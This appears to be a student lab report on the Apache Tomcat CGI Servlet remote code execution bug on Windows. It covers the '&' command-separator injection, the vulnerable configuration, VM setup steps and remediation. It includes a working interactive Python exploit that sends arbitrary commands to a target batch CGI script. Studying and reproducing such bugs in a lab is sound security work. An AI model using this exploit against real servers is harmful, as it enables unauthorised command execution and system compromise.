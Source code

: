 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Explanation of Bug:
There is a vulnerability in parameter interpolation in Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 which can be exploited by passing arguements as query
parameters which in turn are passed to the underlying windows command line.  
In windows `&` is a special character which acts as command seperator. Neither Apache Tomcat or the
Windows JRE perform does any kind of input validation for these special characters.  
So, after this we can literally input any command directly to the command line. For example, if
input is `&<cmd_to_run>`, the command which is passed to cmdline will be 
```
RCE.bat &<cmd_to_run>
```  
Here cmd.exe will interpret `RCE.bat` and `<cmd_to_run>` as seperate commands. To see the output of the injected command we need to prepend the command with `&echo.`.  
If this is not done, command will still be invoked but we will not be able to see its output.  
Optionally we can also prepend the command with `&echo+off` which turns off printing of present working directory.  
(`+` is a must and cannot be replaced by `%20` or `space` since HTML queries have MIME type of `application/x-www-form-urlencoded` and since there are
no forms we have to craft query parameters manually).
```
RCE.bat &echo off&echo.&<cmd_to_run>
```  
This bug is only exploitable when running on Windows in a non-default configuration in conjunction with batch files and `enableCmdLineArguements` set to `true` in web.xml file.  
If also `passShellEnvironment` is also set to `true`, this gives the
upper-hand to the attacker as he then doesn't need to enter exact path of commands he want to run. 

# Environment Setup:
1. We installed a Java Runtime Environment (JRE) on a Windows 7 virtual machine.
2. We then download the vulnerable version of Tomcat (in this case 7.0.93) and extract.
3. To enable privileged context, we modify the `conf\context.xml` file and set the property `privileged` to True.

	``` html
	<Context privileged="true">
	```	
4. To enable the CGI Serverlet, we would need to uncomment the commented CGI Serverlet section in `conf\web.xml`. We also initialize the `enableCmdLineArguments` to `true` for passing command line arguments to CGI script, we can also set `passShellEnvironment` for the sake of convenience without passing full paths of commands to be executed.
	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<init-param>
	  <param-name>passShellEnvironment</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

5. We enable the url pattern `/cgi/*` to be handled by the cgi scripts.
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```
6. To demonstrate the vulnerability, we need some cgi scripts to be present on the server, to simulate that, we create a directory for the cgi scripts

 	`mkdir webapps\ROOT\WEB-INF\cgi`

7. The exploit requires the presence of some cgi script, which would be executed each time a request to the certain script is made. The exploit would work as long as we have a non-empty valid cgi script (this script could otherwise be found by some attacker with enumeration under similar environment). We just create a `RCE.bat` which simply sleeps for 1 second
	```bash
	echo timeout 1 > webapps\ROOT\WEB-INF\cgi\RCE.bat 
	```

8.	We then instantiate the the TomCat server for exploitation
	``` bash
	cd bin
	catalina run
	```
9. Now we have our vulnerable server up for exploitation, we pass commands to the url of the cgi batch script.
  
# Exploit Code:

```python
import requests as re		
base_url = input("Enter url of the .bat cgi script: ")
while(True):
	command = input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command		
	# & is command seperator
	r = re.get(base_url, params=command.replace(" ","+"))	
	# ' ' is replaced by '+' to craft valid query parameters
	print(r.text)
```

# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
2.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` and set it to `true`for proper input validation. 

